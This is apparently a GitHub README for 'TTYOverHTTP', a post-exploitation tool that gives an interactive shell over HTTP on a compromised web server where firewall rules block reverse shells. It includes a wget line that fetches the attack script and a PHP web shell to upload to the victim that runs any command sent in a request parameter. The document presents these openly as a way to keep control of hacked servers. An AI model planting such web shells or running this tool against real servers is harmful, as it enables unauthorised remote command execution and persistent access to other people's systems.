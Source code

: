 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
Sometimes when we compromise a web server, there are configured rules (**Ex: iptables**) that prevent us from obtaining a Reverse Shell via Netcat, Python, or another utility.

 With this tool, we avoid having to use a reverse shell to
 obtain a TTY later fully interactive.  Through files
 '**mkfifo**', we play to simulate an interactive TTY over HTTP, achieving
 manage the system comfortably without any type of problem.

 The only thing we need is to upload a PHP structure like the following to the compromised server to execute commands:
```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

 After its execution, you'll have an interactive TTY!


